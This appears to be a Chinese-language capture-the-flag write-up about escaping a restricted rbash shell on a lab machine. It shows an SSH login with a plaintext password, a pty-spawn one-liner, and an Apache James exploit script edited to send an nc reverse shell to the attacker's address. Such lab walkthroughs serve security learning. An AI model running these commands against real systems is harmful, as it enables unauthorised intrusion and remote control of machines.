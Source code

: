 当我看到whoami命令，提示`-rbash: $'\r': command not found`

于是输入help
```
GNU bash, version 4.4.12(1)-release (i686-pc-linux-gnu)
These shell commands are defined internally.  Type `help' to see this list.
Type `help name' to find out more about the function `name'.
Use `info bash' to find out more about the shell in general.
Use `man -k' or `info' to find out more about commands not in this list.

A star (*) next to a name means that the command is disabled.

 job_spec [&]                                                 history [-c] [-d offset] [n] or history -anrw [filename] >
 (( expression ))                                             if COMMANDS; then 
省略。。。。。。。。。。。
```

这个限制的shell，让我想起了[以前遇到](https://whale3070.github.io/training/2017/11/01/level-4-%E5%B8%83%E5%B0%94%E7%9B%B2%E6%B3%A8/)的`echo os.system('/bin/bash')`

又让我想起了bash破壳漏洞，但是GNU bash, version 4.4.12，版本好像不对。

我想了好久，也没有找到突破rbash的任何方式。

#### 突破限制的shell

一看别人做的，`Apparently, you can just execute commands through SSH directly and they will not go through the restricted shell`，apparently，这个词严重打击了我的信心（==）

```console
ssh mindy@192.168.2.135 bash
P@55W0rd1!2@
python -c 'import pty; pty.spawn("/bin/bash")'
```
得到了一个普通权限的shell，(_　_)。゜zｚＺ真的不容易啊

#### 第二种获得bash-shell的方式

```
searchsploit james       #获得py脚本路径
vi /usr/share/exploitdb/exploits/linux/remote/35513.py #修改该脚本的payload
payload = '/bin/nc -e /bin/sh 192.168.2.128 8888' #将这一行，改为用nc反弹sh shell
nc -lnvp 8888 #kali监听

python /usr/share/exploitdb/exploits/linux/remote/35513.py 192.168.2.135 #运行python脚本，将该命令发送的目标主机

ssh mindy@192.168.2.135 #登陆目标主机
```
![1234](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-02/1234.PNG)

